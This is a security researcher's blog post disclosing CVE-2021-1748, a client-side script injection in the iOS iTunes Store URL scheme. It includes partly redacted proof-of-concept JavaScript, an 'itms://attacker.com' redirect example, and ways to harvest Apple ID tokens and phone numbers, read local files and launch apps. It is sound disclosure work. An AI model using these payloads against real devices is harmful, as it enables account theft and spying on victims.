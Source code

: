 ```yaml
---
layout:	post
title: "Mistuned Part 1: Client-side XSS to Calculator and More"
image: /img/2021-08-04-mistuned-part-i/mistune.png
---
```


Ever since Pointer Authentication Code (PAC) has been introduced, iPhone remained standing for more than two years on various pwn contests until TianfuCup 2020 (Project Zero has reported a remote zero click exploit in 2019). Ant Security and Qihoo 360 used two different bug chains respectively to successfully gained remote code execution with userspace sandbox escape on iPhone 11 with iOS 14.2.

In a series of post, I am going to disclouse the bugs I used for full-chain remote code execution. Born with Generation Z, these bugs were introduced by iOS 3 and iOS 6 respectively, however they were still able to fully bypass various protections on a state-of-the-art mobile phone at the time.

## Client-side XSS from iOS 3

The exploit starts from a malicious page in MobileSafari. Instead of attacking MobileSafari itself, there is a well-known attack surface named URL Schemes or Universal Links. It's the resource locator for Apps. Web pages can open local apps with a formatted URL. In MobileSafari, some built-in Apple apps are trusted unconditionally, including App Store and iTunes. There is no user confirmation before inter-app navigation.

Back to [Pwn2Own 2014](https://www.securityweek.com/mobile-pwn2own-2014-iphone-5s-galaxy-s5-nexus-5-fire-phone-hacked), Jung Hoon Lee used `itmss://` to open arbitrary untrusted website in iTunes, leading to sandbox escape. An additional memory corruption bug was used to gain code execution. It has been assigned to [CVE-2014-8840](https://support.apple.com/en-us/HT204245).

```js
<script>
location = 'itmss://attacker.com';
</script>
```

iOS then introduced a trusted domain list in this URL scheme. Before loading the page, it fetches a configuration from [this URL](https://sandbox.itunes.apple.com/WebObjects/MZInit.woa/wa/initiateSession). The configuration is an XML serialized property list. The hostname of the page must match the following suffix defined in `trustedDomains` field.

```xml
<key>trustedDomains</key>
<array>
  <string>.apple.com.edgesuite.net</string>
  <string>.asia.apple.com</string>
  <string>.corp.apple.com</string>
  <string>.euro.apple.com</string>
  <string>.itunes.apple.com</string>
  <string>.itunes.com</string>
  <string>.icloud.com</string>
```

If the domain matches, iTunes Store will render the page in its `SUWebView`, which is a subclass of the deprecated `UIWebView` in HTTPS. We can't Man-in-the-middle to hijack the HTML, but any XSS in the trusted domain can inject Javascript to this app.

However, after analyzing the following methods, I found another bypass introduced by iOS 3 to achieve client-side XSS.

* `-[SUStoreController handleApplicationURL:]`
* `-[NSURL storeURLType]`
* `-[SUStoreController _handleAccountURL:]`
* `-[SKUIURL initWithURL:]`

This bug could affect a wide range of iOS versions. Part of the PoC is redacted to help protect users that stay below 14.3 due to hardware limitations or at their will.

Given certain combination of parameters, this `itms` URL will force the app to ignore the hostname but load a secondary URL provided by the query string instead: `itms://<redacted>&url=http://www.apple.com`. While the hostname still has to match the trust list, it allows plain text http communications and some domains in the list like `support.mac.com` don't have HSTS, making them vulnerable to interception. Furthermore, according to the disassembly, it trusts arbitrary data URI in addiction to the allowed host names: `itms://<redacted>&url=data:text/plain,hello`. This is basically a reflected XSS since it can carry arbitrary inline HTML. 

The app always appends a question mark after the URL, trying to append extra querstring. This breaks base64 encoding, but plain text works just fine. Here's an example of the inter app script inection.

```js
String.prototype.toDataURI = function() {
  return 'data:text/html;,' + encodeURIComponent(this).replace(/[!'()*]/g, escape);
}

function payload() {  
  iTunes.alert('gotcha'); // do ya thing
}

const data = `<script type="application/javascript">(${payload})()<\/script>`.toDataURI()
const url = new URL('itms://<redacted>');
// part of the PoC is redacted to prevent abuse
url.searchParams.set('url', data);
location = url
```

The earliest firmware that has the vulnerable code is `Kirkwood7A341`, which was released back to 2009.

`SUWebView` is a subclass of `UIWebView`, so it doesn't have isolated renderer processes. A common misunderstanding for WebView is that only `WKWebView` has JIT optimization. Actually it's controlled by the `dynamic-codesigning` entitlement. iTunes Store has this entitlement to speed up `JSContext` execution, but it happens to create an environment that any working exploit (nomatter the type, JIT or DOM) in MobileSafari works here as well, without concerning about the WebContent sandbox.

Due to the system enforcement, to use `mmap(MAP_JIT)`, the process must be sandboxed. So iTunes Store still has `app-container` after all, but it's got much more access compared to WebContent and even third-party apps. It has been granted even more entitlements for privacy related access like camera and AppStore credentials. It's probably the highest privilege that shellcode could get after `jsc` interpreter had been removed from iOS.

But everything comes with a price. In this context, the exploit has only one chance to get remote code execution, or the app dies. There is no such thing like auto recover for browser tabs. It has a high demand for reliability of the exploit. Besides, this bug redirects from MobileSafari to iTunes Store, leaving significantly observable animation in the UI, so it's not ideal for real attackers.

On iOS 14, iTunes Store is not the only vector. There is a StoreKitUIService app that suffers the same flaw. The only difference is the URL Scheme is `itms-ui`, rather than `itms`. StoreKitUIService is also responsible for delievering OTA enterprise apps. It has almost no UI impact compared to the former. Unfortunately `itms-ui` is not trusted. MobileSafari warns before opening the URL. However, if the payload is delivered through iMessage, AirDrop or some 3rd-party instant messengers, it doesn't matter because such scenarios don't require extra confirmation.

This bug has been assigned to CVE-2021-1748.

## Memory Corruption-free Exploitation

Before getting into the code execution, this client-side XSS is interesting because it allows reading sensitive information and arbitrary app execution.

The `UIWebView` uses obsolete `WebScripting` API to export extra methods to Javascript. `WebScripting` translates Javascript invocations to Objective-C, with known data types automatically converted. There is an `iTunes` namespace in `globalThis` context, which is bunded to an `SUScriptInterface` instance. It has innterfaces as follows:

**Fingerprinting**. `iTunes.systemVersion()` and `userAgent` can tell the OS version and the model of SoC, which are useful for adjusting the exploit.

**Apple ID**. `iTunes.primaryAccount?.identifier` is the Apple ID for App Store and iTunes.`primaryiCloudAccount?.identifier` is the iCloud account. Besides, any outgoing http requests, no matter what the domain is, will have extra headers for Apple ID authentication. Even two-factor authentication (2FA) related tokens like `X-Apple-I-MD` and `X-Apple-I-MD-M` are included.

```js
{
  'icloud-dsid': '***',
  'x-apple-store-front': '143465-19,29',
  'x-dsid': '***',
  'x-apple-client-versions': 'iBooks/7.2; iTunesU/3.7.4; GameCenter/??; Podcasts/3.9',
  'x-mme-client-info': '<iPhone12,3> <iPhone OS;14.2;18B92> <com.apple.AppleAccount/1.0 (com.apple.MobileStore/1)>',
  'x-apple-i-timezone': 'GMT+8',
  'x-apple-i-client-time': '2020-11-06T14:46:07Z',
  'x-apple-i-md-rinfo': '17106176',
  'x-apple-adsid': '***',
  'x-apple-connection-type': 'WiFi',
  'x-apple-partner': 'origin.0',
  'x-apple-i-locale': 'zh_CN',
  'x-apple-i-md-m': '***',
  'x-apple-i-md': '***'
}
```

**Disk space**. `iTunes.diskSpaceAvailable()` tells the available disk space of the phone.

**Telephony**. `iTunes.telephony` is a namespace that gives the phone number, operator and provider of the victim. Imagine this, there is no need to ask the number for a person that attractives you in a party. Just AirDrop the bait and wait for response.

**Reading textual files (within the container)**. `SUScriptInterface` has a custom AJAX implementation that doesn't enforce same-origin policy. The only limit is that the hostname must match a certain trusted list (different from the former). The implementation is based on `NSURL` and it doesn't check for the scheme, so I can use file URLs to read a local path, where the hostname will be discarded: `file://r.mzstatic.com/etc/passwd`. Unfortunately the result is `NSString` backed so it doesn't support binary data. After all, this app has no direct access to the full disk because of the sandbox.

**Arbitrary app enumeration and execution**. `iTunes.installedSoftwareApplications` is an array for all the installed apps. It supports launching app by identifier, so here is how I managed to launch calculator from web without touching any modern memory safety mitigations:

```js
const app = iTunes.softwareApplicationWithBundleID_('com.apple.calculator')
app.launchWithURL_options_suspended_('calc://1337', {}, false);
```

![Calculator Demo](/img/2021-08-04-mistuned-part-i/calc.gif)

## Conclusion

CVE-2021-1748 is just anther fresh example of my previous BlackHat Talk [Cross-site Escape](https://i.blackhat.com/eu-20/Thursday/eu-20-Zhou-Cross-Site-Escape-Pwning-MacOS-Safari-Sandbox-The-Unusual-Way.pdf). A client side XSS disarms the sandbox and exposes a bigger attack surface by exposing extra methods to JavaScript. It doesn't even need memory corruption at this point to launch Calculator app.

In the upcoming posts, I'll introduce a secondary UAF bug (CVE-2021-1864) to gain various memory primitives, build arbitrary invocation, and finally bypass both PAC and APRR to load arbitrary shellcode in the context of iTunes Store app.